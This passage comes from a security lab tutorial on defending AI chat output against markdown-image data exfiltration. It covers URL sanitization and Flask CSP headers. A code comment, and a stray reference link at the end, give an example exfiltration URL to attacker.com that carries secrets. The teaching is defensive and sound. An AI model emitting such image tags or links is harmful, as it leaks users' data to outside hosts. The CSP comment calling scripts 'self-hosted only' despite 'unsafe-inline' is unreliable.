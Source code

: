 ```python

    # Sanitize URLs before returning
    safe_response = sanitize_ai_output(raw_response)

    return safe_response

# Test secure implementation
print("User asks: 'Where is the product manual?'")
response = secure_ai_response("product_manual")
print(f"Secure AI response: {response}")
```

**Output:**
```
User asks: 'Where is the product manual?'
Secure AI response: [LINK REMOVED FOR SECURITY]
```

**Security Controls:**
- Domain whitelist enforcement
- Query string length limits
- Base64 encoding detection
- Markdown image removal (prevents auto-load)
- URL replacement with security notice

---

### Lab 4: Content Security Policy (CSP) Implementation

**HTTP Headers for Defense:**
```python
from flask import Flask, render_template, make_response

app = Flask(__name__)

@app.route('/chat')
def secure_chat():
    """Secure chat interface with CSP headers"""
    response = make_response(render_template('chat.html'))

    # Content Security Policy
    csp = (
        "default-src 'self'; "                          # Only same-origin by default
        "img-src 'self' data:; "                        # Images: self + data URLs (no external)
        "script-src 'self' 'unsafe-inline'; "           # Scripts: self-hosted only
        "style-src 'self' 'unsafe-inline'; "            # Styles: self-hosted
        "connect-src 'self'; "                          # AJAX: same-origin only
        "frame-ancestors 'none'; "                      # Prevent clickjacking
        "form-action 'self'; "                          # Forms: same-origin
        "base-uri 'self'; "                             # <base> tag restriction
    )

    response.headers['Content-Security-Policy'] = csp
    response.headers['X-Content-Type-Options'] = 'nosniff'
    response.headers['X-Frame-Options'] = 'DENY'
    response.headers['Referrer-Policy'] = 'no-referrer'

    return response

# Test CSP
# Browser will BLOCK: <img src="https://attacker.com/exfil?data=secrets">
# Browser will ALLOW: <img src="/local-image.png">
```


[ref]: https://attacker.com/exfil?data=secrets